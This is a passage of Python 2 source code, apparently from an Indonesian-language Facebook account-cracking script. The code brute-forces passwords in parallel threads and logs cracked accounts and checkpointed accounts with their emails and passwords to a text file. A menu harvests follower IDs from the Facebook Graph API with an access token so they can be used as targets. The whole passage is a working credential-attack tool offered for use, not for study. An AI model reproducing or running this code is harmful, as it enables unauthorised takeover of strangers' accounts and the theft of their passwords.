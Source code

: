 												oke.write('\n   [OK] '+em+' • '+pc5)
												oke.close()
												oks.append(em)
											else:
												if 'checkpoint' in xo:
													print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pc5
													cek = open('done/like.txt', 'a')
													cek.write('\n   [CP] '+em+' • '+pc5)
													cek.close()
													CP.append(em)
		except:
			pass
	p = ThreadPool(20)
	p.map(main, id)
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
        print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	print '\033[0;97m   • \033[0;97mSelesai ...'
	print"\033[0;97m   • \033[0;97mTotal \033[0;97mOK\033[0;97m/\x1b[0;97mCP \033[0;97m: \033[0;97m"+str(len(oks))+"\033[0;97m/\033[0;97m"+str(len(CP))
	print '\033[0;97m   • \033[0;97mOK\033[0;97m/\x1b[0;97mCP \033[0;97mfile tersimpan \033[0;97m: \033[0;97mdone/like.txt'
	print "\033[0;91m╚═══════════════════════════════════════════════════════════════╝"
	raw_input("\033[0;97m   < \033[0;97mKembali\033[0;97m >")
	os.system("python2 crackfb2.py")
	
##### CRACK FOLLOW #####
def crack_follow():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print '\033[0;97m   ! Token Invalid'
		os.system('rm -rf login.txt')
		time.sleep(1)
		Exit()
	os.system('clear')
	print logo
	print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	print ('\033[0;97m   1.\033[0;97m Crack Dari Follower Saya')
	print ('\033[0;97m   2.\033[0;97m Crack Dari Follower Teman')
	print ('\033[0;97m   0.\033[0;97m Kembali')
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
	pilih_follow()
	
#### PILIH FOLLOW ####
def pilih_follow():
	keak = raw_input('\033[0;97m   >\033[0;97m ')
	if keak =="":
		print '\033[0;97m   ! Isi Yg Benar'
		pilih_follow()
	elif keak =="1":
		os.system('clear')
		print logo
		print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
		r = requests.get("https://graph.facebook.com/me/subscribers?limit=999999&access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif keak =="2":
		os.system('clear')
		print logo
		print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
		idt = raw_input("\033[0;97m   • \033[0;97mID Public/Teman \033[0;97m:\033[0;97m ")